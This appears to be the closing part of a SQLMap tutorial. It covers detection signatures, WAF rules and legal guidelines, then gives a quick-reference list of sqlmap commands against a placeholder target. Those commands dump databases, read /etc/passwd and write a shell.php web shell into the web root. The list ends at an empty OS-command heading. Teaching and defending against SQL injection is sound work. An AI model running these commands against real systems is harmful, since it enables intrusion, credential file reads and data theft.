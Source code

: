 
## 🛡️ Defensive Measures

Understanding how SQLMap works helps in defense:

### Detection Signatures
```bash
# Common SQLMap signatures in logs:
# User-Agent: sqlmap/1.x.x
# High number of requests with similar patterns
# Specific payload patterns in parameters
# Error messages indicating SQL syntax issues
```

### WAF Rules
```bash
# Block common SQLMap patterns
# Monitor for multiple database error messages
# Rate limiting on parameter testing
# Signature-based detection of injection attempts
```

---

## ⚖️ Legal and Ethical Guidelines

### ✅ Authorized Testing
- Only test applications you own or have written permission to test
- Follow responsible disclosure practices
- Document all findings professionally
- Respect rate limits and server resources

### 🚫 Illegal Activities
- Never use SQLMap against systems without permission
- Don't extract sensitive data without authorization
- Avoid damaging or modifying database contents
- Don't ignore terms of service or legal warnings

---

## 🔗 Quick Reference Commands

```bash
# Basic vulnerability scan
sqlmap -u "http://target.com/page.php?id=1"

# Test POST data
sqlmap -u "http://target.com/login.php" --data="user=admin&pass=test"

# Test from saved request
sqlmap -r request.txt

# Database enumeration
sqlmap -u "target" --dbs --tables --columns

# Data extraction
sqlmap -u "target" -D database -T table --dump

# File operations
sqlmap -u "target" --file-read="/etc/passwd"
sqlmap -u "target" --file-write="shell.php" --file-dest="/var/www/shell.php"

# OS command execution
```